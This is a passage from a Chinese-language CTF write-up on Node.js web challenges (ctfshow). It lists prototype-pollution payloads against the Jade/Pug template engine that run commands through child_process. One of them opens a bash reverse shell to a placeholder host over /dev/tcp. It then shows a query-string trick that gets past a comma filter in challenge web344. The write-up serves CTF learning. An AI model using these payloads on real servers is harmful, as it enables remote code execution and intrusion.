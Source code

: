 参考链接`https://xz.aliyun.com/t/7025`

payload

```js
{"__proto__":{"__proto__": {"type":"Block","nodes":"","compileDebug":1,"self":1,"line":"global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/xxx/810>&1\"')"}}}

{"__proto__":{"__proto__": {"type":"Code","compileDebug":1,"self":1,"line":"0, \"\" ));return global.process.mainModule.constructor._load('child_process').execSync('whoami', function(){} );jade_debug.unshift(new jade.DebugItem(0"}}}

{"__proto__":{"__proto__": {"type":"MixinBlock","compileDebug":1,"self":1,"line":"0, \"\" ));return global.process.mainModule.constructor._load('child_process').execSync('whoami', function(){} );//"}}}

{"__proto__":{"__proto__": {"type":"Doctype","compileDebug":1,"self":1,"line":"0, \"\" ));return global.process.mainModule.constructor._load('child_process').execSync('whoami', function(){} );//"}}}

{"__proto__":{"__proto__": {"type":"Doctype","compileDebug":1,"self":1,"line":"0, \"\" ));return global.process.mainModule.constructor._load('child_process').execSync('calc');//"}}}
```



### web344

```js
router.get('/', function(req, res, next) {
 res.type('html');
 var flag = 'flag_here';
 if(req.url.match(/8c|2c|\,/ig)){
 	res.end('where is flag :)');
 }
 var query = JSON.parse(req.query.query);
 if(query.name==='admin'&&query.password==='ctfshow'&&query.isVIP===true){
 	res.end(flag);
 }else{
 	res.end('where is flag. :)');
 }

});

```

根据源码我们正常情况下需要传`?query={"name":"admin","password":"ctfshow","isVIP":true}`但是题目把逗号和他的url编码给过滤掉了，所以需要绕过。
`payload:?query={"name":"admin"&query="password":"%63tfshow"&query="isVIP":true}`
nodejs中会把这三部分拼接起来，为什么把ctfshow中的c编码呢，因为双引号的url编码是%22再和c连接起来就是%22c，会匹配到正则表达式。

## VM沙盒逃逸

###  知识点
